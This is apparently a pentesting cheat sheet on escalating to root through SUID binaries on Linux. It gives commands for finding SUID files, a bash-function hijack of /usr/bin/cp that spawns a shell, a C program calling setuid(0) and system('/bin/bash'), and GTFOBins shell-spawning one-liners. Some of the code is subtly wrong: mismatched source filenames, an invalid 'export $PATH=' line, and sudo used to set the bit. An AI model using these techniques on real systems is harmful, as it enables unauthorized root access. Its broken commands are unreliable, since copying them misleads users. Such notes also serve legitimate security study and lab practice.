 ## SUID

### How to Find SUIDs?

To find SUID that may be useful then execute the following commands:

```
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

For example, an output could be:

```
bash-4.2$ find / -user root -perm -4000 -print 2> /dev/null
find / -user root -perm -4000 -print 2> /dev/null
/usr/bin/mount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/su
/usr/bin/update_my_docs
[... reduced ...]
````

If we'll check the /usr/bin/update_my_docs we'll see it's running under root ownership:

```
bash-4.2$: ls /usr/bin/update_my_docs -alh                  
-rwsr-xr-x 1 root root 138K 23 nov.  16:04 /usr/bin/update_my_docs
```

### Exploiting SUID

For some unix binaries that can be exploited you may find in GTFOBins project.
For custome-made binaries the process may be as following:

#### Bash Function Manipulation

In this techniques, we'll create/export a bash function matching one of the programs called by the program (i.e., "/usr/bin/cp"):

```
function /usr/bin/cp(){ /bin/sh; }
export -f /usr/bin/cp
```

Then we'll execute our program /usr/bin/update_my_docs to get our shell.

#### Create Binary SUID

In this trick, we'll create a SUID bianry as following:

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > /tmp/setuid.c
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```

Place it in our $PATH using the command:

```
export $PATH=/tmp:$PATH
```

Then execute our binary to get shell as root.

#### GTFOBins 

GTFOBins is a list of UNIX binaries that can be exploited to bypass local security restrictions. Those binaries can be abused to escape restricted shells, spawn remote shells, elevate privlieges 
and more. 

A few examples: 

``` 
awk 'BEGIN {system("/bin/sh")}'
sudo find . -exec /bin/sh \; -quit
```

For more acurated list: https://gtfobins.github.io/gtfobins/
